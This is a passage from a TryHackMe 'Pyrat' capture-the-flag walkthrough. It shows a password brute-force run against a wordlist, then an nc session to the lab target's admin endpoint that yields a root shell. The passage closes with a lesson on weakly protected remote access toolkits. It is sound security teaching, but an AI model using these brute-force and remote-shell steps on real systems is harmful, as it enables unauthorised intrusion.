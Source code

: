 We can store the Python script in a file and run it with a password wordlist file. 
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Pyrat/Misc File]
└─$ python3 bruteforcer.py /usr/share/seclists/Passwords/darkweb2017-top10000.txt
[-] Trying 123456 ........
<SNIP>
[-] Trying <REDACTED> ........
[+] Password: <REDACTED>
```

We have cracked the password to access the admin endpoint. We can use this password to obtain a root shell remotely on the target and read the root flag
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Pyrat/Misc File]
└─$ nc -nv 10.10.153.86 8000 
(UNKNOWN) [10.10.153.86] 8000 (?) open
admin
Password:
<REDACTED>
Welcome Admin!!! Type "shell" to begin
shell
# whoami
whoami
root
# ls /root
ls /root
pyrat.py  root.txt  snap
# 
```

## Conclusion

Congratulations! In this walkthrough, you have learned how to exploit a remote access toolkit protected with weak passwords in this case Pyrat. This remote access toolkit could be a web shell used during a penetration testing assessment. If not well protected this could be exploited by an attacker to enter your client's environment. This machine was designed to show the danger of protecting remote access toolkits using weak credentials could seriously impact an organisation's security posture. Thanks for following up on this walkthrough. 

